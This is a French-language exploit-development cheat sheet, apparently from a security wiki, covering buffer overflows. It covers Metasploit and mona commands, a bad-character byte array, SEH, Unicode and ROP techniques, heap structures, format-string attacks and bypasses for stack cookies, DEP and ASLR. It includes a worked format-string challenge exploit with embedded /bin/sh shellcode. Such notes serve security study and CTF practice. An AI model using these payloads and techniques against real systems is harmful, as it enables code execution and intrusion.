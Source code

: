 ```yaml
---
title: Buffer Overflows
permalink: /Buffer_Overflows/
---
```


# Buffer Overflows

## Généralités

Cette section contient des commandes générales utiles pour l'exploitation de buffer overflows.

Générer des patterns avec metasploit:

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb 2700 # Génération du pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 39694438 # Trouver l'offset
```

Trouver un jmp avec mona dans un module spécifique:

``` bash
!mona jmp -!mona jmp -r esp -m user32.dll
```

Quand on teste un payload avec GDB il faut prendre en compte les variables d'environnement qui sont différentes dans GDB et dans un terminal "normal". Une astuce est de setter temporairement des variables dans le terminal normal (il y a notamment les variables COLUMNS et LINES qui sont présentes dans GDB)

### Bad characters

Pour rechercher des bad chars on peut générer un payload avec mona:

``` bash
!mona bytearray # Tous les caractères
!mona bytearray -cpb "\x00\x0a" # Tous sauf \x00 \x0a
```

On peut comparer un fichier avec le contenu en mémoire:

``` bash
!mona compare -f C:/mona/minishare/bytearray.bin -a 01010101 
```

Cette chaîne peut être utilisée pour chercher les "**bad chars**":

``` text
buf="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf+="\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf+="\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf+="\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf+="\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf+="\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf+="\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf+="\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf+="\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf+="\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf+="\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf+="\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf+="\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf+="\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf+="\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf+="\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Il faut également s'assurer que les bad chars n'empêchent pas le crash pour pouvoir facilement trouver à quel char on s'est arrêté.

### Générer shellcodes

On peut utiliser metasploit pour trouver les équivalents opcode de certaines instructions:

``` text
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

## SEH Overflows

Les commandes mona suivantes permettent l'exploitation :
``` bash
!mona exchain # Affiche les enregistrements SEH (on peut aussi faire ALT+S)
!mona safeseh # Affiche les modules sans SafeSEH
!mona seh -m strmdll.dll # Chercher un pop,pop,ret dans le module indiqué
```

Il faut trouver un payload de la forme suivante:
``` bash
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

Si on utilise msfvenom il faut préciser EXITFUNC=SEH.

## Unicode

msfvenom dispose d'un encoder pour générer des payloads compatibles avec de l'unicode:

``` bash
msfvenom -p windows/exec -e x86/unicode_mixed CMD=calc.exe BufferRegister=eax --format=py
```

Il est cependant nécessaire d'initialiser la valeur de registre eax pour qu'elle pointe vers le début du buffer. FuzzySecurity montre une démarche (voir détail complet dans le [tutorial](http://www.fuzzysecurity.com/tutorials/expDev/5.html)). 

## Return Oriented Programming (ROP)

Les commandes mona suivantes sont utiles pour les exploits ROP:

``` bash
!mona modules # Liste les informations sur les différents modules
!mona ropfunc -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les fonctions utiles pour ROP dans MSRMfilter03.dll (VirtualAlloc, etc.)
!mona rop -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les gadgets dans MSRMfilter03.dll. Cette commande génère plusieurs fichiers. Le fichier rop_chains.txt contient la structure (valeurs à mettre dans les registres, etc.) pour faire un exploit valide.
```
## Heap attacks

### Structure de la Heap (Linux)

La Heap est remplie de chunks. Ils peuvent soit etre en utilisation ou libre.

- Chunk utilisé:
``` bash
[Previous Chunk Size(*)][Chunk Size + Flags][Data              ]
[4 bytes               ][4 bytes           ][(8 + (n/8)*8 bytes]
[*(buffer - 8)         ][*(buffer - 4)     ][*buffer           ]
(*) n'est configuré que si le chunk précédent est libre !
```

 - Chunk libre:
 ``` bash
[Previous Chunk Size][Chunk Size + Flags][FD (pointer to next free chunk)][BK (pointer to previous free chunk)]
[4 bytes            ][4 bytes           ][4 bytes                        ][4 bytes                            ]
[*(buffer - 8)      ][*(buffer - 4)     ][*buffer                        ][*(buffer + 4)                      ]
```

### Heap overflow

Une attaque de type heap overflow permet d'écraser des valeurs sur le tas. Ceci peut permettre de contourner certains contrôles (ex: valeur "privs" à modifier) ou éventuellement executer du code (ex: le tas contient un pointeur qui est ensuite utilisé via strcpy. On peut alors modifier ce pointeur pour que le strcpy modifie une adresse de retour).

### Heap Spraying

Le Heap Spraying est une méthode utilisée pour mettre le shellcode en mémoire. Via du JavaScript on met le shellcode précédé d'un large nopsled. Ceci permet de mettre dans EIP une adresse où on a une forte chance de tomber sur le nopsled.

### Commandes

Les commandes suivantes sont utiles pour l'exploitation de vulnérabilités liées à la heap:

``` bash
info proc mappings # Permet d'afficher les mappings de la heap, stack, etc.
x/64xw 0x804a000 # Permet d'afficher le contenu à l'adresse indiquée (adresse de la heap à récupérer)
```

## Format String

Une vulnérabilité de type format string permet de lire du contenu en mémoire mais aussi de le modifier ce qui permet de faire un RCE.

Les éléments suivants sont importants dans ce type d'exploit:

``` c
printf("%x"); // Prend les deux premières valeurs sur la pile et les affiche en tant que que nombre hexa
printf("Hello%n"); // Ecrit le nombre de caractères déjà mis dans le printf (ici 5 caractères de Hello) à l'adresse qui est sur la pile. On aura un crash si la première valeur de la pile n'est pas une adresse.
printf("%5$x"); // Prend la 5e valeur sur la pile
printf("%10d"); // Prend la première valeur sur la pile et l'affiche en tant qu'entier de 10 caractères (en complétant avec des espaces si nécessaire)
printf("%5$hn"); // Prend l'adresse en 5e position sur la pile et écrit sur le half-byte s'y trouvant. On utilise ceci pour pouvoir écrire une adresse arbitraire en deux fois. Ainsi si on voulait écrire 0x08091011 il faudrait mettre 134811665 avant le %n. En utilisant %hn on peut le faire en deux fois (0x0809 - 2057 et 0x1011 - 4113)
```

On peut exploiter ceci de différentes manières:
- Lire le contenu en mémoire
- Ecraser une valeur de retour (utile pour des challenges où on doit appeler une fonction précise)
- Modifier une valeur dans la Global Offset Table (voir [LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4))
- Génrer un shellcode.

``` python
# Solution a un challege
shellcode = '\xee\xf7\xff\xbf'  # Adresse où se trouve le saved EIP
shellcode += '\xec\xf7\xff\xbf' # Adresse - 2 où se trouve le saved EIP. Ceci est utilisé pour le "half-write"
shellcode += 'AAAA\xcc\xcc'     # JUNK et caractères de debug
shellcode += '\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f' # Shellcode
shellcode += '\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'     # Shellcode
shellcode += '%49098d'         # On genère des caractères. En additionant ceux-ci aux précédents (shellcode, etc.) on a 0xbfff caractères imprimés
shellcode += '%4\$hn'          # On écrase le début 0xbfff
shellcode += '%14349d'         # On génère plus de caractères 
shellcode += '%5\$hn'          # On écrase la fin 0xf80c
```

### Références
- [Les failles Format String](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)

## Contournement de protections

### Stack Cookies

Méthodes de contournement:
- Cookie prévisible (statique, faible entropie, etc.)
- Attaque SEH

### Data Execution Prevention (DEP)

Méthodes de contournement:
- Return Oriented Programming
- Return to LIBC

### Address Space Layout Randomization (ASLR)

Méthodes de contournement:
- Partial EIP Overwrite (voir [tutorial Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/))

## Ressources

### Liens externes

- [64 Bits Linux Stack Based Buffer Overflow](https://www.exploit-db.com/docs/33698.pdf)
- [Windows Exploit Development - Part 1](http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html)
- [Tutorials Fuzzy Security](http://www.fuzzysecurity.com/tutorials.html)
